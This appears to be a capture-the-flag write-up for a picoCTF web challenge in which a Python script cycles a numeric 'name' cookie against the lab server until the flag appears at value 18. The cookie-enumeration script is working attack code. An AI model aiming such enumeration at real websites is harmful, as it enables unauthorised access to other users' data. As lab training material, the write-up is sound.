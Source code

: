 ### Cookies

Access the lab, 

![hompage](image.png)

Enter `snickerdoodle`, we got reponse `I love snickerdoodle cookies!`

We can see, on POST - `/search` and  GET - `/check`, `Cookies` parameters `name`

if `name = 1`, it's is `snickerdoodle`
if `name = 2`, is `chocolate chip`

so, let's create a script

```python
import requests
from bs4 import BeautifulSoup
burp0_url = "http://mercury.picoctf.net:64944/check"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://mercury.picoctf.net:64944/", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Priority": "u=0, i"}


proxy = {
    'http': 'http://127.0.0.1:8080',
    'https': 'https://127.0.0.1:8080'
}

x = 0
while True:
    x += 1
    burp0_cookies = {"name": f"{x}"}
    resp = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies,verify=False, proxies=proxy)
    #print (resp.text)
    soup = BeautifulSoup(resp.text, 'html.parser')
    b_tag = soup.find('b')
    if b_tag:
        print(b_tag.text + f" at {x}")
    else:
        print(f'not found btag on {x}.')

```
got flag at 18

![alt text](image-1.png)

Try modify `name` is `18` got flag

![flag](image-2.png)